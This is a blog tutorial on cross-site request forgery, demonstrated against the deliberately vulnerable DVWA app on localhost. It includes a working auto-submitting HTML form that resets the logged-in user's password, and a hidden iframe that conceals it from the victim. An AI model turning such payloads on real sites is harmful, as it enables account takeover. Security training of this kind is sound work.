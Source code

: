 ```yaml
---
layout: post
section-type: post
has-comments: true
title: Exploring Cross-Site Request Forgery Attacks
category: tech
tags: ["security", "redteam"]
---
```


Today we are going to explore Cross-Site Request Forgery (CSRF) attacks and how
they work. Although these attacks often start with social engineering tactics to
entice a victim to click on a malicious link, we will bypass this aspect and
focus only on the technical details of the attack.

Imagine a scenario where a user clicks on every link they receive without
considering the potential risks. This user may already be authenticated on
certain websites, making it possible for an attacker to issue requests on their
behalf. This is precisely what CSRF attacks entail.

To better illustrate the concept, let's take a look at the CSRF section of DVWA:

![csrf](/img/posts/csrf/csrf-0.png)

As shown, this is a password update page. It would be quite convenient for an
attacker if they could change the victim's password by exploiting this
vulnerability. By examining the request using Burp, we can see that it is a
simple GET request with two parameters - the new password and its verification:

![csrf](/img/posts/csrf/csrf-1.png)

To automate the request, we can create a page that triggers this request as soon
as it loads:

```html
<!-- csrf.html-->
<html>
  <body>
    <form
      action="http://127.0.0.1/dvwa/vulnerabilities/csrf/"
      method="GET"
      id="csrfForm"
      name="csrfForm"
    >
      <input name="password_new" value="password" />
      <input name="password_conf" value="password" />
      <input name="Change" value="Change" />
    </form>
    <script>
      document.forms["csrfForm"].submit();
    </script>
  </body>
</html>
```

Let's open the csrf.html file in our browser while we are already logged in to
DVWA:

![csrf](/img/posts/csrf/csrf-2.png)

The password has been successfully changed. This is because the browser
recognized our request to DVWA and loaded the user's cookies, including the
session id, thereby making our request appear completely legitimate. However, if
we were not logged into DVWA, or if we were to open the csrf.html file in a
private window, the attack would not work.

To make the attack less noticeable to the user, we can hide the csrf.html file
within an invisible iframe. This way, the user will not be able to detect that
anything malicious is happening.

```html
<html>
  <body>
    <iframe src="file:///root/Desktop/csrf.html" style="display:none" />
  </body>
</html>
```

Now, let's open the file:

![csrf](/img/posts/csrf/csrf-3.png)

Although CSRF is a powerful attack, it is not a common vulnerability in modern
web frameworks, since they automatically protect against it by adding a CSRF
token that must be included in POST requests. However, it is still useful to be
aware of this attack and its potential dangers, especially when it is combined
with other attacks such as XSS.
